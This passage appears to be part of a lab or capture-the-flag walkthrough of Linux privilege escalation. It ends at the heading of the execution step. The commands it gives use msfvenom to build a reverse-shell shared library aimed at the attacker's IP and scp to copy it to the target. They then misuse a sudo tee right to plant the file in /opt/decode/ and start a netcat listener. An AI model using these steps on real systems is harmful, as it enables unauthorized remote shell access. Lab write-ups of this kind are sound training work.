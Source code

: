 On my attacking machine, I will generate a malicious `.so` file using `msfvenom`. This file contains a reverse shell payload, which will connect back to my machine when executed:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.105 LPORT=1234 -o lib.so -f elf-so
```

**Key points:** 
- `-p linux/x64/shell_reverse_tcp`: Generates a reverse shell payload for Linux (64-bit)
- `LHOST=192.168.0.105`: The IP of my attacking machine
- `LPORT=1234`: The port where I will listen for the connection
- `-o lib.so`: Saves the payload as `lib.so`
- `-f elf-so`: Formats it as a shared library (`.so` file)

### 4.2. Transferring the Malicious File to the Target Machine

I will transfer `lib.so` to the target system using `scp`:

```bash
scp lib.so ajneya@192.168.0.106:/tmp
```

### 4.3. Moving lib.so to /opt/decode/ Using steve's Permissions

Although `ajneya` does not have write access to `/opt/`, the user `steve` has sudo privileges to write in `/opt/decode/`.

Remembering `steve`'s sudo privileges:

```bash
User steve may run the following commands on decode:
    (decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee
```

This means `steve` can execute `tee` as `decoder`. If `decoder` has write permissions on `/opt/decode/`, then `steve` can write files there using `sudo -u decoder tee`.

Now, I will use `tee` to place the malicious file in `/opt/decode/`:

```bash
cat /tmp/lib.so | sudo -u decoder tee /opt/decode/lib.so
```

Since `tee` is running as `decoder`, the file is successfully written to `/opt/decode/`.

### 4.4. Setting Up a Netcat Listener on my Attacker's Machine

I will start a Netcat listener on my machine to catch the incoming shell connection:

```bash
nc -nlvp 1234
```

### 4.5. Executing the Exploit to Trigger the Reverse Shell
